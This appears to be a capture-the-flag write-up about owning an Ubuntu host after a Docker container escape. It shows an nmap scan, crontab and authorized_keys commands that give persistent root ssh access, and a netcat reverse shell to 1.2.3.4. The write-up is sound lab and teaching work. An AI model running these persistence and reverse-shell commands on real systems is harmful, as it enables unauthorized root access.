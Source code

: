 # Ubuntu

## Port Scan

```
ec2-user@kali:~$ nmap 172.16.4.85 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-30 18:37 UTC
Nmap scan report for 172.16.4.85
Host is up (0.015s latency).
Not shown: 65525 closed ports
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8443/tcp  open  https-alt
8777/tcp  open  unknown
8880/tcp  open  cddbp-alt
9021/tcp  open  panagolin-ident
31063/tcp open  unknown
```

I also checked UDP for a small range, but connection was refused when trying to connect after the scan.

```
PORT    STATE         SERVICE
137/udp open          netbios-ns
138/udp open|filtered netbios-dgm
MAC Address: 0A:28:C5:43:46:2A (Unknown)
```

## Shell on Ubuntu host

One interesting discovery was being able to get a shell on the host system itself after escaping via the docker container on port 2222. Read the writeup for port 2222 (King of Diamonds) to see initial steps.

After mounting the host filesystem within the container, we would have read and write access to everything within the host. This mean that we could exploit this as we wish, and upgrade our container shell to a host shell!

There are various ways to do this but the way used in this case was to write some our own `cronjobs` and make them run as root. Because ssh shells are the nicest to use, we enable ssh on the host machine with the line:

`echo "* * * * * root systemctl start ssh.service" >> /host/etc/crontab`

where `/host` is the mount point used in the container escape. In my Kali instance I generated the key first with `ssh-keygen -t rsa -C "your_email@example.com"`. Then in `/host/root/.ssh/` we add our Kali ssh key to the `authorized_keys` file. An `echo` one liner can be used to do that `echo '<pub_key>' > authorized_keys`. Then we can simply ssh in with `ssh <user>@172.16.4.85` on port 22.

An alternative to the above if you wanted to get straight into a shell would be to just write a `nc` reverse shell and catch it with a listener e.g.

`echo "* * * * * root nc 1.2.3.4 555 -e /bin/sh" >> /host/etc/crontab`

We can now run docker commands, and can even execute commands to be run within the containers e.g. `docker exec -it <container id> bash>` to get a shell for that container.

`Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

![docker containers](../docker_containers.png)

## Finding flags on the host

Now we had a shortcut to find all flags on for this box! Although I had already found most at this point.

The files used in docker images lived in `/var/lib/locker/aufs/` and you could simply run a `find` to search for flags. The names of them varied, but you could do various filters like finding all files and checking if each file contains a PNG header. An simple example would be:

```
find ./ -exec grep PNG {} +
Binary file .//5ofspades.png matches
Binary file .//9ofhearts.png matches
Binary file .//8ofdiamonds.png matches
```
